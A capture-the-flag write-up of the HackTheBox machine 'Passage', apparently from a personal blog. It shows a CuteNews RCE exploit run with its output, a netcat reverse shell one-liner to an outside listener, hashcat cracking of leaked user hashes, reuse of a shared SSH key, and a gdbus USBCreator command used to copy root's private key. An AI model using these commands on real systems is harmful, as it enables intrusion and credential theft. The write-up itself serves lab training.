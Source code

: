 ```yaml
---
title: "HackTheBox - Passage"
author: Nasrallah
description: ""
date: 2023-05-15 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, medium, rce, hashcat, crack]
img_path: /assets/img/hackthebox/machines/passage
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Passage](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

![](0.png)

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.206
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17eb9e23ea23b6b1bcc64fdb98d3d4a1 (RSA)
|   256 71645150c37f184703983e5eb81019fc (ECDSA)
|_  256 fd562af8d060a7f1a0a147a438d6a8a1 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found just two ports, 22 and 80.

## Web

Let's check the web page.

![](1.png)

The page is powered by `CuteNews` and the copyright is from 2020.

Let's check if there is any exploits in this CMS.

![](2.png)

We found a RCE exploit. let's download it [here](https://www.exploit-db.com/exploits/48800).

# **Foothold**

It's time to run the exploit.`python3 exploit.py`

```terminal
$ python3 exploit.py                                                                                                                                     
                                                                                                                                                              
                                                                                                                                                              
                                                                                                                                                              
           _____     __      _  __                     ___   ___  ___                                                                                         
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |                                                                                        
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/                                                                                         
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/                                                                                         
                                ___  _________                                                                                                                
                               / _ \/ ___/ __/                                                                                                                
                              / , _/ /__/ _/                                                                                                                  
                             /_/|_|\___/___/                                                                                                                  
                                                                                                                                                              

                                                                                                                                                    

[->] Usage python3 expoit.py

Enter the URL> http://10.10.10.206/
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: HiRzNzxLLn and password: HiRzNzxLLn

=======================================================
Sending Payload
=======================================================
signature_key: dda213e56a87edc81ebf48f5186f8a60-HiRzNzxLLn
signature_dsi: aabd7308915e904c7367a7e357bc88d6
logged in user: HiRzNzxLLn
============================
Dropping to a SHELL
============================

command > id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

Great! We got some user hashes and command execution as `www-data`, now let's get a proper reverse shell.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```

![](3.png)

# **Privilege Escalation**

## www-data --> paul

### hashcat

The exploit gave us some SHA256 hashes so let's try cracking them with `hashcat` mode 1400 

```terminal
$ hashcat -m 1400 hashes.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...
                                       
OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5 CPU       M 520  @ 2.40GHz, 2726/2790 MB (1024 MB allocatable), 4MCU

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1
Approaching final keyspace - workload adjusted.  

                                                 
Session..........: hashcat
Status...........: Exhausted
Hash.Name........: SHA2-256
Hash.Target......: hashes.txt
Time.Started.....: Thu May 18 10:30:23 2023 (10 secs)
Time.Estimated...: Thu May 18 10:30:33 2023 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1469.4 kH/s (1.39ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/5 (20.00%) Digests
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]
```

We got a password, now let's see what user's are on the box.

```terminal
www-data@passage:/var/www/html/CuteNews/uploads$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
nadav:x:1000:1000:Nadav,,,:/home/nadav:/bin/bash
paul:x:1001:1001:Paul Coles,,,:/home/paul:/bin/bash
```

We found `paul` and `nadav`, let's use the password and see if we can switch to any of them.

![](4.png)

Great! That was `paul`'s password.

## paul --> nadav

On `paul`'s home directory we find a `.ssh` directory with a private key.

![](5.png)

One thing to notice is the on `authorized_keys` we find `nadav`'s public key, and same with `id_rsa.pub`. The question is are they using the same keys?!.

Let's test it.

![](6.png)

They are using the same key, now we have access to both users.

## nadav --> root

Now let's run `linpeas`

![](7.png)

The script told us that USBCreator is vulnerable and provided us with a [link](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation#gui-enumeration) that talks about the vulnerability, but didn't find a way to exploit it.

I searched on google for `USBCreator privesc` and found this [article](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) that provides us with a POC that allows us to copy files.

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /source/file /destination/file true
```

We can use that to get `root.txt`.

![](8.png)

To get a root shell, we can try grabbing the root private ssh key.

![](9.png)

Now we use the key to ssh as root.

![](10.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).